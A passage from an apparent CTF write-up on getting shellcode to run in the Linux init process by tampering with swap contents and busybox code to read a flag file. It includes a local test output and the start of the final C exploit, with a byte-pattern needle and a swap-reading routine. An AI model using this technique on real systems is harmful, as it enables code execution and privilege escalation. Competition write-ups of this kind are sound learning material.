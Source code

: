 Nice! That means our shellcode is executed by `init` process! However, I admit this is quite accidental, because according to `rip` value shown in error message, it is the function after the `SYS_exit` function that is executed by `init` instead of the exit function in my original thought. After some trying, I found the first instruction being executed is `0x4d12a6`, which suggests `init` is just returning from a `syscall` at `0x4d12a4` before executing the tampered code. Nonetheless, we can actually execute code in `init` process! Firstly I tried `execve("/bin/sh", NULL, NULL)`, but that also causes panic in `sh`. I guess the reason is `/bin/sh` also links to `/bin/busybox`, which is already tampered by us. Thus secondly I tried to write shellcode that open and read `/dev/fd0` (e.i. `flag.txt`), and write its content to `stdout`. This time it works locally! Although we may need to run it several times to find the binary sequences, probably because there is some probability for Linux to store that code into `/swap`. 

```
544
found!!!
... hxp{test}
```

## 0x04 Remote Environment

However, the exploit does not work properly remotely: it encounters `EOF` at around 400+ iterations. Initially I thought it is because when process is out-of-memory, whole kernel is killed instead of that one process, unlike local environment. But even if I `munmap` the pages, it still encounters `EOF` at around same number of iterations. And even if I decreases the size of `mmap`, it still encounters `EOF` at same iteration. This is weird. Finally I tried to increase the size of `mmap` to `0x100000`, and this time I got the flag at last 2 minutes of the CTF.

Nonetheless, I still have no idea why such `EOF` occurs.

The final exploit is shown below:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <memory.h>
#include <stdlib.h>
#include <assert.h>
#include <string.h>
#include <stdbool.h>
#include <sys/mman.h>

#define SWAP_SIZE 0xa00000
// #define NEEDLE "\xE8\xD9\xFE\xFF\xFF\xF6\x43\x0C\x63"
// #define NEEDLE "\x48\xC7\x05\xBD\x00\x30\x00\x43"
const unsigned char NEEDLE[] = {0x48,0x63,0xFF,0xB8,0xE7,0x00,0x00,0x00,0x0F,0x05,0xBA,0x3C,0x00,0x00,0x00};
unsigned char swap[SWAP_SIZE];

void read_all(FILE* f)
{
	size_t already = 0;
	while (true)
	{
		size_t res = fread(swap + already, 1, SWAP_SIZE - already, f);
		// printf("res=%lu\n", res);
		if (res == 0)
		{
			assert(already == SWAP_SIZE);
			return;
		}
		already += res;
	}
}
#define BUFFERS_SIZE 0x80
#define PAGE_SIZE 0x100000

```